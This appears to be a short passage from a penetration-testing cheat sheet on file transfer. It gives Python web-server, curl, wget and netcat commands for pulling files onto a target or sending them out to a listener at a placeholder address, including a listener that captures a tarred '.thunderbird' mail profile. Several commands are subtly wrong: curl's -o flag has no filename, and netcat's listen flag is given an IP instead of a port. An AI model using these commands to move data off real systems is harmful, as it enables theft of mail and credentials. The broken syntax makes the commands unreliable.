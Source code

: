 ```yaml
---
description: Listeners and binaries
icon: tornado
---
```


# File Transfer

{% tabs %}
{% tab title="Python Web Server" %}
{% code title="Host" %}
```sh
python3 -m http.server 443
```
{% endcode %}

***

#### <mark style="color:purple;">Client</mark>

{% code title="curl" %}
```sh
curl -o IP:Port/file
```
{% endcode %}

{% code title="wget" %}
```bash
wget IP:Port/file
```
{% endcode %}
{% endtab %}

{% tab title="Netcat" %}
{% code title="Host" %}
```sh
nc -lvp <Local_IP> > file
```
{% endcode %}

{% code title="Client" %}
```sh
nc <Target_IP> <port> < file
```
{% endcode %}

* <mark style="color:purple;">For entire directories is good practice to use</mark> <mark style="color:orange;">**`tar`**</mark><mark style="color:purple;">:</mark>

{% code title="Listener" %}
```sh
nc -lvp 4445 > .thunderbird.tar
```
{% endcode %}
